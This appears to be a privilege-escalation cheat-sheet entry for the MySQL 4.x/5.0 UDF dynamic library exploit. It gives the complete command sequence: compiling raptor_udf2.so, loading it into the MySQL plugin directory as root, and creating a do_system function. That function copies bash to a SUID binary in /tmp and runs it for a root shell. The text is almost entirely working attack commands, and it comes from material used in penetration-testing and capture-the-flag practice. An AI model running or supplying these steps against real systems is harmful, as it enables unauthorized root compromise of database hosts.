 - - -
##### MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)

**Exploit Link** : [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

Transfer this exploit to the target and use the following commands to compile it :

```sh
gcc -g -c raptor_udf2.c -fPIC
```

```sh
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to mysql service as **root**.

```sh
mysql -uroot
```

Execute the following commands on the MySQL shell :

```mysql
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/evil-bash and set the SUID permission:

```mysql
mysql> select do_system('cp /bin/bash /tmp/evilbash; chmod +xs /tmp/evilbash');
```

Exit out of the MySQL shell and Type :

```sh
/tmp/evilbash -p
```

- - -
